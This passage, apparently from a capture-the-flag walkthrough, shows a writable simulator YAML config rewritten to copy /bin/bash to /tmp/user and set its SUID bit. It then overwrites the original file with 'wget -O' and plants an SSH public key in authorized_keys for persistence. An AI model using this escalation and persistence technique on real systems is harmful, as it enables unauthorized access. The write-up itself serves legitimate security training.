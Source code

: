 This file was being used to run some commands, and we have write access over it. As such, we can easily create another one of it that makes an SUID binary as the user. Here's the updated file:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/user
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/user
      start_time: 5s
```

We can overwrite the existing file using `wget -O`. Afterwards, we can easily get a user shell:

<figure><img src="../../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>

We can drop our public key into the `authorized_keys` folder to upgrade our shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>
